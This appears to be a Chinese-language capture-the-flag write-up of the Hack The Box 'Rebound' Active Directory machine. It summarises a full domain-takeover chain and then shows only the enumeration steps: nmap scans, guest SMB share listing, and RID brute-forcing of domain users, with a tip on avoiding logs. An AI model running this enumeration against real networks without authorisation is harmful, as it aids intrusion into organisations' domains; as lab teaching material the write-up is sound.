# **HTB:Rebound**


## **👾**Machine Info 机器信息



###   **About Rebound**

**Rebound** 是一台疯狂的 Windows 计算机，具有棘手的 Active Directory 环境。通过 RID 循环进行的用户枚举显示一个 AS-REP 可烘焙用户，其 TGT 用于使用可破解密码对另一个用户进行 Kerberoast。弱 ACL 被滥用以访问对 OU 具有 FullControl 的组的访问权限，执行后代对象接管 （DOT），然后对具有 winrm 访问权限的用户进行 ShadowCredentials 攻击。在目标系统上，利用跨会话中继来获取已登录用户的 NetNTLMv2 哈希值，一旦破解，将导致读取 gMSA 密码。最后，gMSA 帐户允许委派，但没有协议转换。基于资源的约束委派 （RBCD） 用于模拟域控制器，从而启用 DCSync 攻击，从而导致完全提升的权限。

### **Skills Required 技能要求**

- Advanced Active Directory Enumeration 
- Bloodhound 
- Kerberos & Kerberos Delegation

### **Skills Learned 技能学习**

- Pre-authentication Kerberoasting 
- Cross-session relay attack 
- Resource-Based Constrained Delegation (RBCD) 
- S4U2Self & S4U2Proxy

## Enumeration 枚举

### **Namp Scan**

#### **Namp 端口扫描** 

> **(多次扫描对比扫描结果)** 目标机器是一个域控制器

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Nmap --min-rate 1000 -sT 10.129.6.63 -oA Nmapscan/ports

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 08:32 CST
Nmap scan report for 10.129.6.63
Host is up (0.21s latency).
Not shown: 979 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
53/tcp    open     domain
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
389/tcp   open     ldap
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
1147/tcp  filtered capioverlan
1151/tcp  filtered unizensus
1717/tcp  filtered fj-hdnet
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
5100/tcp  filtered admd
5985/tcp  open     wsman
9011/tcp  filtered d-star
16001/tcp filtered fmsascon
19315/tcp filtered keyshadow
20000/tcp filtered dnp
44442/tcp filtered coldfusion-auth

Nmap done: 1 IP address (1 host up) scanned in 2.61 seconds
```

> 格式化端口

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sed -i '1,5d' Nmapscan/ports.nmap #删除前五行
===========================================================================================================
 53/tcp    open     domain
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
389/tcp   open     ldap
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
1147/tcp  filtered capioverlan
1151/tcp  filtered unizensus
1717/tcp  filtered fj-hdnet
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
5100/tcp  filtered admd
5985/tcp  open     wsman
9011/tcp  filtered d-star
16001/tcp filtered fmsascon
19315/tcp filtered keyshadow
20000/tcp filtered dnp
44442/tcp filtered coldfusion-auth

# Nmap done at Tue Mar 11 08:32:04 2025 -- 1 IP address (1 host up) scanned in 2.61 seconds
===========================================================================================================

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ grep "open" Nmapscan/ports.nmap | awk -F "/" '{print $1}' | paste -sd ',' #格式化

53,88,135,139,389,445,464,593,636,1147,1151,1717,3268,3269,5100,5985,9011,16001,19315,20000,44442

也可以直接赋值成变量

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ ports=$(grep "open" Nmapscan/ports.nmap | awk -F "/" '{print $1}' | paste -sd ',') #变量赋值
```

#### **Nmap详细信息扫描**

> 某些端口上的 TLS 证书上有一个备用名称，这台靶机是`dc01.rebound.htb`,许多端口显示域 `rebound.htb`。

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Nmap -sCVT -O -p$ports 10.129.6.63 -oA Nmapscan/detail

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 08:41 CST
Nmap scan report for 10.129.6.63
Host is up (0.41s latency).

PORT      STATE  SERVICE         VERSION
53/tcp    open   domain          Simple DNS Plus
88/tcp    open   kerberos-sec    Microsoft Windows Kerberos (server time: 2025-03-11 07:26:53Z)
135/tcp   open   msrpc           Microsoft Windows RPC
139/tcp   open   netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open   ldap            Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-11T07:28:07+00:00; +6h44m55s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http      Microsoft Windows RPC over HTTP 1.0
636/tcp   open   ssl/ldap        Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
|_ssl-date: 2025-03-11T07:28:07+00:00; +6h44m56s from scanner time.
1147/tcp  closed capioverlan
1151/tcp  closed unizensus
1717/tcp  closed fj-hdnet
3268/tcp  open   ldap            Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
|_ssl-date: 2025-03-11T07:28:07+00:00; +6h44m55s from scanner time.
3269/tcp  open   ssl/ldap        Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
|_ssl-date: 2025-03-11T07:28:08+00:00; +6h44m55s from scanner time.
5100/tcp  closed admd
5985/tcp  open   http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9011/tcp  closed d-star
16001/tcp closed fmsascon
19315/tcp closed keyshadow
20000/tcp closed dnp
44442/tcp closed coldfusion-auth
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=3/11%OT=53%CT=1147%CU=31694%PV=Y%DS=2%DC=I%G=Y%TM=67CF
OS:8724%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=RD%CI=I%II=I%TS=U
OS:)SEQ(SP=104%GCD=1%ISR=108%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=106%GCD=1%ISR=108
OS:%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=106%GCD=1%ISR=10A%TI=RD%CI=I%II=I%TS=U)SEQ
OS:(SP=F6%GCD=1%ISR=107%TI=RD%CI=RD%II=I%TS=U)OPS(O1=M53ANW8NNS%O2=M53ANW8N
OS:NS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%W2=FFFF
OS:%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53ANW8NNS%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%D
OS:F=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h44m54s, deviation: 0s, median: 6h44m54s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-03-11T07:27:58
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.59 seconds
```

> `clock-skew: mean: 6h44m54s, deviation: 0s, median: 6h44m54s` 这里涉及到时钟偏差，我们需要时间同步一下

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo ntpdate 10.129.6.63 （隐蔽性会更好 需开放UDP 123端口）或者 sudo net time set -S 10.129.6.63 (会留下日志 SMB 445)

2025-03-11 15:37:04.122100 (+0800) +24295.695522 +/- 0.100537 10.129.6.63 s1 no-leap
CLOCK: time stepped by 24295.695522
```

> 再次执行详细信息扫描 误差缩小了

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Nmap -sCVT -O -p$ports 10.129.6.63 -oA Nmapscan/detail
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 15:41 CST
Nmap scan report for 10.129.6.63
Host is up (0.15s latency).

PORT      STATE  SERVICE         VERSION
53/tcp    open   domain          Simple DNS Plus
88/tcp    open   kerberos-sec    Microsoft Windows Kerberos (server time: 2025-03-11 07:41:28Z)
135/tcp   open   msrpc           Microsoft Windows RPC
139/tcp   open   netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open   ldap            Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-11T07:42:37+00:00; +26s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http      Microsoft Windows RPC over HTTP 1.0
636/tcp   open   ssl/ldap        Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-11T07:42:37+00:00; +26s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
1147/tcp  closed capioverlan
1151/tcp  closed unizensus
1717/tcp  closed fj-hdnet
3268/tcp  open   ldap            Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
|_ssl-date: 2025-03-11T07:42:37+00:00; +26s from scanner time.
3269/tcp  open   ssl/ldap        Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-11T07:42:37+00:00; +26s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.rebound.htb, DNS:rebound.htb, DNS:rebound
| Not valid before: 2025-03-06T19:51:11
|_Not valid after:  2122-04-08T14:05:49
5100/tcp  closed admd
5985/tcp  open   http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9011/tcp  closed d-star
16001/tcp closed fmsascon
19315/tcp closed keyshadow
20000/tcp closed dnp
44442/tcp closed coldfusion-auth
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=3/11%OT=53%CT=1147%CU=32469%PV=Y%DS=2%DC=I%G=Y%TM=67CF
OS:E955%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=I%CI=I%II=I%TS=U)
OS:SEQ(SP=103%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=106%GCD=1%ISR=1
OS:07%TI=I%CI=I%II=I%TS=U)SEQ(SP=107%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S%TS=U
OS:)SEQ(SP=109%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M53ANW8NNS%O2=
OS:M53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF
OS:%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53A
OS:NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)
OS:T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-03-11T07:42:29
|_  start_date: N/A
|_clock-skew: mean: 25s, deviation: 0s, median: 25s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.56 seconds
```

**攻击思路:**

- **Tier 1**
  - SMB - 检查对文件的未授权访问或可写共享。枚举用户.
- **Tier 2**
  - DNS - 检查区域传输，或暴力破解其他子域.
  - Kerberos - 如果无法使用 SMB，则使用暴力用户名。AS-REP-roast 和用户名，Kerberoast 和 creds.
  - LDAP - 枚举，但通常需要 creds.
- **Other**
  - WinRM - 检查带有 creds 的 shell.

> 绑定一下域名信息

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo sed -i '1i 10.129.6.63 dc01.rebound.htb rebound.htb' /etc/hosts

10.129.6.63 dc01.rebound.htb rebound.htb
# This file was automatically generated by WSL. To stop automatic generation of this file, add the following entry to /etc/wsl.conf:
# [network]
# generateHosts = false
127.0.0.1       localhost
127.0.1.1       AsyNoo. AsyNoo

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ getent hosts rebound.htb

10.129.6.63    dc01.rebound.htb rebound.htb
```

#### **Nmap 默认脚本扫描**

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Nmap --script=vuln -p53,88,135,139,389,445,464,593,636,1147,1151,1717,3268,3269,5100,5985,9011,16001,19315,20000,44442 10.129.6.63 -oA Nmapscan/vuln
[sudo] password for whoami:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 15:44 CST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.129.6.63
Host is up (0.16s latency).

PORT      STATE  SERVICE
53/tcp    open   domain
88/tcp    open   kerberos-sec
135/tcp   open   msrpc
139/tcp   open   netbios-ssn
389/tcp   open   ldap
445/tcp   open   microsoft-ds
464/tcp   open   kpasswd5
593/tcp   open   http-rpc-epmap
636/tcp   open   ldapssl
1147/tcp  closed capioverlan
1151/tcp  closed unizensus
1717/tcp  closed fj-hdnet
3268/tcp  open   globalcatLDAP
3269/tcp  open   globalcatLDAPssl
5100/tcp  closed admd
5985/tcp  open   wsman
9011/tcp  closed d-star
16001/tcp closed fmsascon
19315/tcp closed keyshadow
20000/tcp closed dnp
44442/tcp closed coldfusion-auth

Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR

Nmap done: 1 IP address (1 host up) scanned in 79.96 seconds
```

#### **Nmap UDP top20端口扫描**

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Nmap -sU --top-ports 20 10.129.6.63 -oA Nmapscan/udp
[sudo] password for whoami:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 15:43 CST
Nmap scan report for 10.129.6.63
Host is up (0.13s latency).

PORT      STATE         SERVICE
53/udp    open          domain
67/udp    closed        dhcps
68/udp    closed        dhcpc
69/udp    closed        tftp
123/udp   open          ntp
135/udp   closed        msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp closed        unknown

Nmap done: 1 IP address (1 host up) scanned in 16.36 seconds
```

### **SMB - TCP/445**

> 首先检查是否可以使用null-session列出共享。

```apl
方法一:
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ smbclient -N -L //rebound.htb/

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Shared          Disk
        SYSVOL          Disk      Logon server share
        
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to rebound.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

方法二:
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ Netexec smb rebound.htb --shares #匿名访问

SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.6.63    445    DC01             [-] IndexError: list index out of range
SMB         10.129.6.63    445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ Netexec smb rebound.htb -u guest -p '' --shares #guest用户访问 其实任何不存在的用户都会映射成guest用户

SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.6.63    445    DC01             [+] rebound.htb\guest:
SMB         10.129.6.63    445    DC01             [*] Enumerated shares
SMB         10.129.6.63    445    DC01             Share           Permissions     Remark
SMB         10.129.6.63    445    DC01             -----           -----------     ------
SMB         10.129.6.63    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.6.63    445    DC01             C$                              Default share
SMB         10.129.6.63    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.6.63    445    DC01             NETLOGON                        Logon server share
SMB         10.129.6.63    445    DC01             Shared          READ
SMB         10.129.6.63    445    DC01             SYSVOL                          Logon server share
```

> 只有`Shared` 是共享的，但是里面什么也没有

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ smbclient -N -L //rebound.htb | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' | while read share; do echo "======${share}======"; smbclient -N "//rebound.htb/${share}" -c dir; echo; done

do_connect: Connection to rebound.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
======ADMIN$======
tree connect failed: NT_STATUS_ACCESS_DENIED

======C$======
tree connect failed: NT_STATUS_ACCESS_DENIED

======NETLOGON======
NT_STATUS_ACCESS_DENIED listing \*

======Shared======
  .                                   D        0  Sat Aug 26 05:46:36 2023
  ..                                  D        0  Sat Aug 26 05:46:36 2023

                4607743 blocks of size 4096. 985575 blocks available

======SYSVOL======
NT_STATUS_ACCESS_DENIED listing \*


┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ Netexec smb dc01.rebound.htb -u 'guest' -p '' --shares -M spider_plus
SMB         10.129.6.63     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.6.63     445    DC01             [+] rebound.htb\guest:
SPIDER_PLUS 10.129.6.63     445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.6.63     445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.6.63     445    DC01             [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.6.63     445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.6.63     445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.6.63     445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.6.63     445    DC01             [*]  OUTPUT_FOLDER: /home/whoami/.nxc/modules/nxc_spider_plus
SMB         10.129.6.63     445    DC01             [*] Enumerated shares
SMB         10.129.6.63     445    DC01             Share           Permissions     Remark
SMB         10.129.6.63     445    DC01             -----           -----------     ------
SMB         10.129.6.63     445    DC01             ADMIN$                          Remote Admin
SMB         10.129.6.63     445    DC01             C$                              Default share
SMB         10.129.6.63     445    DC01             IPC$            READ            Remote IPC
SMB         10.129.6.63     445    DC01             NETLOGON                        Logon server share
SMB         10.129.6.63     445    DC01             Shared          READ
SMB         10.129.6.63     445    DC01             SYSVOL                          Logon server share
SPIDER_PLUS 10.129.6.63     445    DC01             [+] Saved share-file metadata to "/home/whoami/.nxc/modules/nxc_spider_plus/10.129.6.63.json".
SPIDER_PLUS 10.129.6.63     445    DC01             [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, Shared, SYSVOL)
SPIDER_PLUS 10.129.6.63     445    DC01             [*] SMB Readable Shares:  2 (IPC$, Shared)
SPIDER_PLUS 10.129.6.63     445    DC01             [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.6.63     445    DC01             [*] Total folders found:  0
SPIDER_PLUS 10.129.6.63     445    DC01             [*] Total files found:    0

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ cat /home/whoami/.nxc/modules/nxc_spider_plus/10.129.6.63.json |jq
{
  "Shared": {}
}
```

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ impacket-smbclient rebound.htb/whoami@10.129.6.63 -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 lls {dirname} - lists all the files on the local filesystem.
 tree {filepath} - recursively lists all files in folder and sub folders
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)


# use Shared
# ls
drw-rw-rw-          0  Sat Aug 26 05:46:36 2023 .
drw-rw-rw-          0  Sat Aug 26 05:46:36 2023 ..
# exit
```

### **RPC - TCP/135**

> SMB枚举已经结束，唯一共享出来的`Shared`里面什么也没有,但是通过`Netexec`枚举时我们发现，`IPC$` 是可读的，它是通过RPC协议传输的,我们可以通过`rpcclient`来枚举一下用户

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ rpcclient -U '' rebound.htb

Password for [WORKGROUP\]:
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> exit
```

> 实际上`rpcclient`需要的权限是更高的，以匿名的方式去访问多数是访问不到的,我们可以尝试用更小权限的`impacket-lookupsid`来尝试枚举用户rid

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo impacket-lookupsid whoami@rebound.htb -no-pass 20000
[sudo] password for whoami:
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Brute forcing SIDs at rebound.htb
[*] StringBinding ncacn_np:rebound.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: rebound\Administrator (SidTypeUser)
501: rebound\Guest (SidTypeUser)
502: rebound\krbtgt (SidTypeUser)
512: rebound\Domain Admins (SidTypeGroup)
513: rebound\Domain Users (SidTypeGroup)
514: rebound\Domain Guests (SidTypeGroup)
515: rebound\Domain Computers (SidTypeGroup)
516: rebound\Domain Controllers (SidTypeGroup)
517: rebound\Cert Publishers (SidTypeAlias)
518: rebound\Schema Admins (SidTypeGroup)
519: rebound\Enterprise Admins (SidTypeGroup)
520: rebound\Group Policy Creator Owners (SidTypeGroup)
521: rebound\Read-only Domain Controllers (SidTypeGroup)
522: rebound\Cloneable Domain Controllers (SidTypeGroup)
525: rebound\Protected Users (SidTypeGroup)
526: rebound\Key Admins (SidTypeGroup)
527: rebound\Enterprise Key Admins (SidTypeGroup)
553: rebound\RAS and IAS Servers (SidTypeAlias)
571: rebound\Allowed RODC Password Replication Group (SidTypeAlias)
572: rebound\Denied RODC Password Replication Group (SidTypeAlias)
1000: rebound\DC01$ (SidTypeUser)
1101: rebound\DnsAdmins (SidTypeAlias)
1102: rebound\DnsUpdateProxy (SidTypeGroup)
1951: rebound\ppaul (SidTypeUser)
2952: rebound\llune (SidTypeUser)
3382: rebound\fflock (SidTypeUser)

===========================================================================================================

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ Netexec smb 10.129.6.63 -u guest -p '' --rid-brute
SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.6.63    445    DC01             [+] rebound.htb\guest: 
SMB         10.129.6.63    445    DC01             498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.6.63    445    DC01             500: rebound\Administrator (SidTypeUser)
SMB         10.129.6.63    445    DC01             501: rebound\Guest (SidTypeUser)
